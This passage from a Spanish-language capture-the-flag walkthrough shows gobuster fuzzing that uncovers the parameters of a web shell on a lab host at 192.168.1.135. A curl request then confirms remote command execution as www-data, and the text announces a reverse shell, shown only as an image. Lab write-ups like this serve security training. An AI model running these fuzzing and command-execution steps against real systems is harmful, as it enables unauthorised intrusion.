 ~~~~bash
===============================================================
2023/03/02 02:43:51 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=33] http://192.168.1.135/thejabasshell.php?a=whoami
~~~~

Parece que hemos localizado el parámetro correcto, veamos que muestra:

~~~~bash
❯ curl 'http://192.168.1.135/thejabasshell.php?a=whoami'
Error: Problem with parameter "b"  
~~~~

Parece que necesitamos un segundo parámetro, vamos a ello:

~~~bash
❯ gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -u "192.168.1.135/thejabasshell.php?a=whoami&b=FUZZ" --exclude-length 33,301
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              http://192.168.1.135/thejabasshell.php?a=whoami&b=FUZZ
[+] Method:           GET
[+] Threads:          200
[+] Wordlist:         /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Exclude Length:   33,301
[+] User Agent:       gobuster/3.5
[+] Timeout:          10s
===============================================================
2023/03/02 02:51:05 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=9] http://192.168.1.135/thejabasshell.php?a=whoami&b=pass
~~~

Comprobamos de nuevo:

~~~~bash
❯ curl 'http://192.168.1.135/thejabasshell.php?a=whoami&b=pass'
www-data
~~~~

<span style="color: green">**¡BINGO!** </span> Ya hemos encontrado un RCE, por lo que vamos a tratar de entablar una reverse shell.


### Reverse shell

![](/assets/images/arroutada/reverse.png){: .align-center}
